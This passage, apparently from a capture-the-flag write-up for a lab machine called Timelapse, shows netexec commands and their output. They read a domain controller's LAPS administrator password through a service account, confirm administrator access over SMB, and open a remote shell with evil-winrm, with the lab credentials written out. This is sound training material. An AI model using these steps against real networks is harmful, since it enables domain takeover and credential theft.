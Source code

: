 ```bash
nxc ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps

LDAP        10.10.11.152    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer:DC01$ User:                Password:{h&RESC7Z+y4w6&F69i6@-$R
```

This should be administrator’s password. Let’s test that:

```bash
nxc smb 10.10.11.152 -u administrator -p '{h&RESC7Z+y4w6&F69i6@-$R' --shares

SMB         10.10.11.152    445    DC01             [+] timelapse.htb\administrator:{h&RESC7Z+y4w6&F69i6@-$R (Pwn3d!)
SMB         10.10.11.152    445    DC01             [*] Enumerated shares
SMB         10.10.11.152    445    DC01             Share           Permissions     Remark
SMB         10.10.11.152    445    DC01             -----           -----------     ------
SMB         10.10.11.152    445    DC01             ADMIN$          READ,WRITE      Remote Admin
SMB         10.10.11.152    445    DC01             C$              READ,WRITE      Default share
SMB         10.10.11.152    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.152    445    DC01             NETLOGON        READ,WRITE      Logon server share 
SMB         10.10.11.152    445    DC01             Shares          READ,WRITE      
SMB         10.10.11.152    445    DC01             SYSVOL          READ,WRITE      Logon server share 
```

We now have administrator acces. We can winrm to the machine:

```bash
evil-winrm -S -u administrator -p '{h&RESC7Z+y4w6&F69i6@-$R' -i 10.10.11.152
```